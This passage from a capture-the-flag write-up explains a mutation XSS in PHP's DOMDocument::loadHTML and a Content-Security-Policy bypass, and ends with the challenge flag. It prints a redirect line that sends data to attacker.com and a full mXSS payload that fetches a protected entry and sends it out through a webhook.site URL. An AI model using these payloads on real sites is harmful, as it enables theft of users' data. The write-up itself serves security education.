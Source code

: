 However, since *most* directives will fall back to the `default-src` directive, it's hard to exfiltrate or send something to external origins due to the `self` source. Well, I said... *most*. Of course, there are some exceptions.

For example, in [`connect-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/connect-src) directive, even if this directive's source is `self`, WebRTC will not get restricted by the CSP. (See this GitHub issue, [WebRTC bypass CSP connect-src policies](https://github.com/w3c/webrtc-nv-use-cases/issues/35))

Another example is to simply redirect the victim to our attacker website. Since directive `script-src` didn't deny us to execute arbitrary JavaScript code, we can redirect the victim like this:

```javascript
document.location = `http://attacker.com/?data=${data}`;
```

This is because currently there's no CSP directives that will restrict redirect origin.

## Exploitation

Armed with above information, we can create a new mutation entry with the following mXSS payload in the details:

```html
<!DOCTYPE html system "><img src=x onerror='fetch(`/mutation.php?id=1`).then(response => response.text()).then(flagResponseText => location = `//webhook.site/7b2499ee-4e16-4d16-8077-64894613930d/?data=${encodeURIComponent(flagResponseText)}`);'>">
```

In this payload, it'll send a GET request to `/mutation.php?id=1` to get the protected flag entry. Then, it'll redirect the victim to our attacker website (In this case it's [webhook.site](webhook.site))

> Note: In the above payload, the `//` in the URL means its a relative URL, so that you don't need to provide the URL scheme.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250429192635.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250429192713.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/PUCTF-2025/images/Pasted%20image%2020250429192755.png)

- **Flag: `PUCTF25{mUt4T1ON_x55_15_4l5o_4NoTH3r_cOv1d19_MUt4t1oN_v4R14Nt_55b02133dcd0b67440bc04a47c5d16e2}`**

## Conclusion

What we've learned:

1. mXSS via parser differential between HTML 4 and 5 in PHP `DOMDocument::loadHTML`
2. CSP bypass